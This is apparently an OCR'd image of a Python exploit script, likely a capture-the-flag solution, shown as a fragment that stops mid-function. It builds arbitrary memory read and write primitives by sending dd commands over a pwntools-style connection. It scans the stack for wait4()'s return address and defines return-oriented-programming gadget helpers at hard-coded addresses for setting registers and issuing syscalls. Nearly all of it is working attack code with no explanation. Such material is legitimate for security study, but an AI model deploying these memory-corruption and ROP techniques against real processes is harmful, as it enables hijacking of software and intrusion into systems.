 ```python
    if off < 0:
        off += 2**64
    res = sys(f'dd bs=1 count={sz} skip={off} <&3')
    return res[:sz]

def seek_mem(off):
    read_mem(0, off)

def write_mem(val, off=0):
    if off < 0:
        off += 2**64
    p.sendline(f'dd bs=1 count={len(val)} seek={off} >&3'.encode())
    p.sendline(val)

open_mem()

BLK_SZ = 4096

ok = False
addr = stack_top()

seek_mem(addr + BLK_SZ)
for _ in range(16):
    data = read_mem(BLK_SZ, -BLK_SZ * 2)
    addr -= BLK_SZ

    # wait4()'s ret addr
    pos = data.find(p64(0x4c7cce))
    if pos > 0:
        # FIXME: Why do we have to do this?
        pos -= pos & 7

        seek_mem(-BLK_SZ + pos)
        addr += pos

        ok = True
        break

assert ok

def set_rdi(rdi):
    #  4d566d:       5f                      pop    %rdi
    #  4d566e:       c3                      ret
    return p64(0x4d566d) + p64(rdi)

def set_rsi(rsi):
    #  4d8b82:       5e                      pop    %rsi
    #  4d8b83:       c3                      ret
    return p64(0x4d8b82) + p64(rsi)

def set_rdx(rdx):
    #  4d5e2f:       5a                      pop    %rdx
    #  4d5e30:       c3                      ret
    return p64(0x4d5e2f) + p64(rdx)

def set_rax(rax):
    #  4d985c:       58                      pop    %rax
    #  4d985d:       c3                      ret
    return p64(0x4d985c) + p64(rax)

def syscall0(nr):
    #  4d8765:       0f 05                   syscall
    #  4d8767:       c3                      ret
```